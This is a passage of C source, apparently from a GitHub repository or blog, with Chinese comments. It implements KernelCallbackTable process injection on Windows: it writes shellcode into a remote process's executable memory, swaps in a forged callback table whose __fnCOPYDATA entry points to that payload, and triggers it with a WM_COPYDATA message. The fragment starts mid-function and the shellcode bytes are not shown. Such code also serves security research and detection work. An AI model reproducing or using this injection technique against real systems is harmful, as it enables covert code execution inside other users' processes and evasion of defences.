 ```c


	// NtQueryInformationProcess api在ntdll里，属于未公开的函数，所以需要动态调用
	HMODULE hNtdll = LoadLibraryA("ntdll.dll");
	if (hNtdll == NULL)
	{
		printf("无法加载 ntdll.dll 库\n");
		return 1;
	}
	NtQueryInformationProcessPtr NtQueryInformationProcess = (NtQueryInformationProcessPtr)GetProcAddress(hNtdll, "NtQueryInformationProcess");
	
	//find base addr by peb
	PROCESS_BASIC_INFORMATION pbi;
	//ULONG ReturnLength;
	NTSTATUS status = NtQueryInformationProcess(hProcess, 0, &pbi, sizeof(pbi), NULL);
	if (status != 0)
	{
		printf("NtQueryInformationProcess 失败，错误码 %lu\n", status);
		return 1;
	}
	
	// peb & kct address
	PEB peb;
	ReadProcessMemory(hProcess, pbi.PebBaseAddress, &peb, sizeof(peb), NULL);
	KERNELCALLBACKTABLE kct;
	ReadProcessMemory(hProcess, peb.KernelCallbackTable, &kct, sizeof(kct), NULL);
	//DWORD_PTR kct_addr = (DWORD_PTR)(BYTE*)peb_addr + 0x58;

	// 申请空间写入shellcode
	LPVOID payloadAddr = VirtualAllocEx(hProcess, NULL, sizeof(shellcode64), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, payloadAddr, shellcode64, sizeof(shellcode64), NULL);

	// 创建一个新的kct，因为之前的不能写
	LPVOID newKCTAddr = VirtualAllocEx(hProcess, NULL, sizeof(kct), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
	kct.__fnCOPYDATA = (ULONG_PTR)payloadAddr;
	WriteProcessMemory(hProcess, newKCTAddr, &kct, sizeof(kct), NULL);

	// 更新kct
	WriteProcessMemory(hProcess, (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), &newKCTAddr, sizeof(ULONG_PTR), NULL);

	// 触发shellcode
	COPYDATASTRUCT cds;
	WCHAR msg[] = L"Pwn";
	cds.dwData = 1;
	cds.cbData = lstrlen(msg) * 2;
	cds.lpData = msg;
	SendMessage(hWnd, WM_COPYDATA, (WPARAM)hWnd, (LPARAM)&cds);
	printf("[+] Payload executed\n");

	return 0;
}
```

